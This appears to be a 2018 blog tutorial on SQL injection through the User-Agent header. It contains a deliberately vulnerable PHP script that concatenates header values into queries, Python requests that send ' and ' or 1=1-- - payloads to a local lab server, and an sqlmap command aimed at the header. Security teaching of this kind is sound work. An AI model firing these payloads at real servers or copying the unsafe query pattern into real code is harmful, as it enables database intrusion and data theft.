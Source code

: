 ```yaml
---
layout: post
title:  "SQL Injection Through HTTP Header"
date:   2018-04-02 08:48:58 +1000
categories: hacking
---
```

Hello, world! In this article I am going to show you, how to exploit [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through HTTP request header


> ###### What is SQL injection?
SQL Injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements (also commonly referred to as a malicious payload) that control a web application's database server (also commonly referred to as a Relational Database Management System – RDBMS).

To demonstrate this attack, I already wrote a vulnerable `PHP` script. Which allows me to do [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) through `User-Agent`. It doesn't have to be the `User-Agent`, it could be any header in the request.

{% highlight php %}
<?php 
	
	$data = array(
		"user-agent" => $_SERVER['HTTP_USER_AGENT'],
		"ip" => $_SERVER['REMOTE_ADDR']
	);

	$link = mysqli_connect("localhost", "root", "", "suyambu");
	if (!$link) {
		echo "Error: Unable to connect to MySQL." . PHP_EOL;
		echo "Debugging errno: " . mysqli_connect_errno() . PHP_EOL;
		echo "Debugging error: " . mysqli_connect_error() . PHP_EOL;
		exit;
	}
	$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
	if (mysqli_num_rows($get_result) == 0) {
		mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
	}

	mysqli_close($link);
	echo json_encode($data);

?>
{% endhighlight %}

The script is simply getting the user `IP` and `User-Agent` then storing it in the [database](https://en.wikipedia.org/wiki/Database). If you noticed there are two mistakes (**vulnerable**) in the script

**1. Unfiltered value in fetch data from database**

{% highlight php %}
$get_result = mysqli_query($link, "SELECT * FROM user_agent WHERE ip='" . $data["ip"] . "' AND agent='" . $data["user-agent"] . "'");
{% endhighlight %}

**2. Unfiltered value in storing data to database**

{% highlight php %}
mysqli_query($link, "INSERT INTO user_agent (ip, agent, is_active) VALUES ('" . $data["ip"] . "', '" . $data["user-agent"] . "', 1)");
{% endhighlight %}

## Checking Vulnerability Using Python

I am going to launch a local [Apache](https://en.wikipedia.org/wiki/Apache) server to test the vulnerability and also I am using Python to send the `HTTP` request.

> There is a [Firefox](https://www.mozilla.org/en-US/firefox/new/) browser extension call [Tamper Data](https://addons.mozilla.org/en-US/firefox/addon/tamper-data/), you can also use this extention to tamper `HTTP` request headers.

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "'"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

> I forgot to tell you, I am testing this vulnerability with `Error Base SQL Injection` in mind, if the application has `Blind SQL Injection` or any other type then you can skip this step.

If you run the script, you will see a SQL error on your response.

{% highlight html %}
<br />
<b>Warning</b>:  mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in <b>/opt/lampp/htdocs/user-agent/index.php</b> on line <b>16</b><br />
{"user-agent":"'","ip":"192.168.43.229"}
{% endhighlight %}

Now to confirm it's vulnerable, I am going to send the following payload in `User-Agent`

{% highlight python %}
import requests


def main():
	res = requests.get("http://192.168.43.229/user-agent/", headers={
		"User-Agent": "' or 1=1-- -"
	})

	print(res.text)


if __name__ == "__main__":
	main()
{% endhighlight %}

If you don't get any error then the application is vulnerable to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection). Now you can exploit the server with any automated [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) tools or you can exploit it by sending self constructed queries.

# Exploit Using SQLMap

To exploit the application through `User-Agent` with [SQLMap](https://en.wikipedia.org/wiki/Sqlmap) you can use the following command.

{% highlight bash %}
$ sqlmap -u http://192.168.43.229/user-agent -p "User-Agent"
{% endhighlight %}

<img src="https://preview.ibb.co/cLABhH/Screenshot_from_2018_04_03_09_15_02.png" alt="Screenshot_from_2018_04_03_09_15_02" border="0">